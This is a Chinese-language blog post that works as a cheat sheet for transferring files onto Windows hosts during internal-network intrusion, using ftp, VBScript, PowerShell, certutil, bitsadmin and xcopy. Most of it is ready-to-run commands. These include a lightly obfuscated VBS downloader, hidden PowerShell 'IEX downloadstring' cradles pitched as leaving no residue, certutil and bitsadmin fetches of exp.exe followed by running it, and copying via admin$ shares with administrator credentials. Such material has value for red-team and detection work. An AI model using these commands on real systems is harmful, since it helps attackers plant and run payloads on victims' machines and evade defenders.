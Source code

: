 # 005-内网文件传输技术 Windows篇


&lt;!--more--&gt;

本文简述内网Windows主机文件传输技术，包括利用ftp、VBScript、powershell、certutil.exe、bitsadmin、Xcopy，都是些老技术，整理分享。

## 一、ftp

windows 全平台自带ftp，在实战中需要考虑两点。

- 数据传输的完整性。
- 代码精简

ftp文件的传输方式：

- Binary，二进制方式；
- ASCII，ASCII传输

在FTP文件传输过程中，ASCII传输HTML和文本编写的文件，而二进制码传输可以传送文本和非文本（执行文件，压缩文件，图片等），具有通用性，二进制码传输速度比ASCII传输要快。

命令：

```shell
 echo open 192.168.1.115 21&gt; ftp.txt 
 echo 123&gt;&gt; ftp.txt          # 用户名 
 echo 123&gt;&gt; ftp.txt          # 密码 
 echo binary &gt;&gt; ftp.txt  # bin模式，设置二进制传输类型 
 echo get robots.txt &gt;&gt; ftp.txt     # 接收指定文件 
 echo bye &gt;&gt; ftp.txt         # 终止ftp会话并退出，同quit  
 
 # 指定包含 FTP 命令的文本文件；命令在 FTP 启动后自动运行。 
 ftp -s:ftp.txt   
 del /F /Q ftp.txt             # 安静模式强制删除ftp文件
```

![图片](/resource/内网文件传输技术-Windows篇.assets/640.png)



精简成一句话

```shell
echo open IP &gt; o&amp;echo user UserName Password &gt;&gt; o &amp;echo get Target_File.exe &gt;&gt; o &amp;echo quit &gt;&gt; o &amp;ftp ‐n ‐s:o &amp;del /F /Q o  

# -A匿名登录下载文件 
echo open IP &gt; o &amp; echo get Target_File.exe &gt;&gt; o &amp;echo quit&gt;&gt;o &amp;ftp -A -n -s:o &amp; del /F /Q o
```



## 二、VBS

编写VBS脚本并保存

```vbscript
set a=createobject(&#34;adod&#34;&#43;&#34;b.stream&#34;):set w=createobject(&#34;micro&#34;&#43;&#34;soft.xmlhttp&#34;):w.open&#34;get&#34;,wsh.arguments( 0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2
```

也可以用echo方式写入vbs

```vbscript
 echo set a=createobject(^&#34;adod^&#34;&#43;^&#34;b.stream^&#34;):set w=createobject(^&#34;micro^&#34;&#43;^&#34;soft.xmlhttp^&#34;):w.open ^&#34;get^&#34;,wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 &gt;&gt; downfile.vbs
```

命令行下载

```
cscript downfile.vbs http://192.168.126.130:8000/flag.txt  C:\Inetpub\b.txt
```

![图片](/resource/内网文件传输技术-Windows篇.assets/640-20230220172700358.png)

也可以把参数直接写入vbs文件中，直接执行。

优点：支持windows全版本系列缺点：对https不友好

VBS作为一门代码语言，可以有多种代码编写的方式，不只这一种

## 三、Powershell

```shell
# 远程下载文件到本地： 
powershell (new-object System.Net.WebClient).DownloadFile(&#39;http://192.168.183.138:8000/test.txt&#39;,&#39;test.exe&#39;)  

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile(&#39;http://192.168.111.1:8080/exp.exe&#39;,&#39;C:\Users\1day\Desktop\Tools\exp.exe&#39;) 
exp.exe  

# 直接把文本转换为exe文件运行，无残留文件 
powershell -nop -w hidden -c &#34;IEX ((new-object net.webclient).downloadstring(&#39;http://192.168.183.138:8000/test.txt&#39;))&#34;
```

## 四、certutil

Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。

```shell
certutil.exe -urlcache -split -f http://192.168.16.157/exp.exe 
# certutil.exe下载有个弊端，它的每一次下载都有留有缓存，所以每次下载后需要清除缓存 
certutil.exe -urlcache -split -f http://192.168.16.157/exp.exe delete //删除缓存 
exp.exe 

-URLCache             -- 显示或删除 URL 缓存项目 
-split                -- 分离嵌入的 ASN.1 元素，并保存到文件 
-f                    -- 强制覆盖

```

![图片](/resource/内网文件传输技术-Windows篇.assets/640-20230220172700839.png)

默认下载为bin文件。但是不影响在命令行下使用。

certutil还自带base64编码解码功能

```
 certutil -encode c:\downfile.vbs downfile.bat 
 certutil -decode c:\downfile.bat downfile.txt
```

## 五、bitsadmin

 BITSAdmin是一个命令行工具，可用于创建下载或上传并监视其进度。 

 具体相关参数参见 官方文档：

```
USAGE: BITSADMIN [/RAWRETURN] [/WRAP | /NOWRAP] command 
The following commands are available:  

/?                Prints this help 
/UTIL  /?         打印实用程序命令列表 
/PEERCACHING /?   打印管理缓存的命令列表 
/CACHE /?         打印缓存管理命令 
/PEERS  /?        打印管道peer管理命令  

/LIST   [/ALLUSERS] [/VERBOSE]     打印任务列表 
/MONITOR [/ALLUSERS] [/REFRESH sec] 监控复制管理器 
/RESET   [/ALLUSERS]                删除所有任务  

/TRANSFER &lt;job name&gt; [type] [/PRIORITY priority] [/ACLFLAGS flags]
					remote_url local_name          传输一个或多个文件.
          [type] 为/DOWNLOAD或/UPLOAD; 默认为下载 
          可以指定多个 URL/文件对。local_name 只支持 绝对路径
```



```shell
bitsadmin /transfer 123 http://192.168.111.1:8080/exp.exe C:\Users\1day\Desktop\exp.exe

net use \\DC\admin$ /u:&#34;administrator&#34; &#34; 1qaz@WSX&#34;
bitsadmin /TRANSFER /DOWNLOAD \\WEB\admin$\temp\t.exe C:\windows\temp\t.exe

bitsadmin /TRANSFER /UPLOAD c:\windows\temp\t.exe \\WEB\admin$\temp\t.exe

```

![图片](/resource/内网文件传输技术-Windows篇.assets/640-20230220172700442.png)

bitsadmin，它可以在网络不稳定的状态下下载文件，出错会自 动重试，在比较复杂的网络环境下，有着不错的性能。

```shell
E:\&gt;bitsadmin /rawreturn /transfer down &#34;http://192.168.1.115/robots.txt&#34; E:\PDF\robots.txt
/RAWRETURN                     返回数据更适合解析
```

需要注意的是，bitsadmin要求服务器支持Range标头。如果需要下载过大的文件，需要提高优先级。配合上面的下载命令。再次执行

```shell
bitsadmin /setpriority down foreground

/SETPRIORITY    &lt;job&gt; &lt;priority&gt;    # 设置工作优先级   
		Priority usage choices:      
				FOREGROUND
        HIGH
        NORMAL
        LOW
```



## 六 、Xcopy

Windows 自带命令，复制文件和目录树

```shell
# 建立网络会话
net use \\DC\admin$ /u:&#34;administrator&#34; &#34;password&#34;

# 从本地推到远端
xcopy /s /h /d /c /y C:\Windows\Temp\t.exe \\WEB\\admin$\temp\ 

# 从远端拉到本地
xcopy /s /h /d /c /y \\WEB\\admin$\temp\t.exe C:\Windows\Temp\ 

参数讲解：
XCOPY source [destination]
	source         指定要复制的文件。
	destination    指定新文件的位置和/或名称。
	/S             复制目录和子目录，不包括空目录。
	/H             也复制隐藏文件和系统文件。
	/D:m-d-y      复制在指定日期或指定日期以后更改的文件。如果没有提供日期，只复制那些源时间比目标时间新的文件。
	/C             即使有错误，也继续复制。
	/Y             取消提示以确认要覆盖现有目标文件。
```


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/%E5%86%85%E7%BD%91%E6%96%87%E4%BB%B6%E4%BC%A0%E8%BE%93%E6%8A%80%E6%9C%AF-windows%E7%AF%87/  


